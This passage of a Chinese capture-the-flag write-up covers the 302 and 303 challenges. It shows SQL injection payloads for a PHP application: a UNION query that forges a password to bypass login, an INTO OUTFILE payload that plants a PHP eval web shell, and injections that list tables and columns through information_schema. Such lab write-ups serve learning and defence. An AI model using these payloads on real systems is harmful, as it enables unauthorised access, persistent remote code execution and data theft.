 ### 解法1：

可以看到username只是作为where的条件进行查询，真正进行判断的还是userpwd

那么利用联合查询的特性伪造一个密码出来：

![](https://i.loli.net/2021/10/06/QbZBImkE4wY3v5M.png)

```
userid=-1' union select "d9c77c4e454869d5d8da3b4be79694d3" %23&userpwd=1
```

![](https://i.loli.net/2021/10/06/jasWfrboUZkGtwc.png)

相关原理这里不赘述，自己本地试![](https://i.loli.net/2021/10/06/yiz5XrtLZxg8DQ1.png)

### 解法2：

sql语句依然没有添加过滤，也能正常被执行，那么写马还是可以的

```php
userid=' union select "<?php eval($_GET[1]);" into outfile "/var/www/html/a.php" --+
```



## 303 sql注入

这次seay有审到：dptadd.php，还是sql注入![](https://i.loli.net/2021/10/06/puIAoJWvV164XiZ.png)

```php
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
```

`if(!isset($_SESSION['login']))`得先登录

这里我本来是想像302一样进去的，但是失败了，还给我弹回个东西

![](https://i.loli.net/2021/10/06/8HPCD7xSZgFT6zy.png)

重新审一下源码：checklogin.php

![](https://i.loli.net/2021/10/06/lijGn2ATLOZuhq4.png)

username长度不得超过6，所以方法不奏效了~
并且引用了fun.php，加了一句`echo sds_decode("admin");`
那么尝试admin/admin登入

成功，然后就是在dptadd.php里注入了

```
dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

```
dpt_name=1',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_fl9g')--+
```
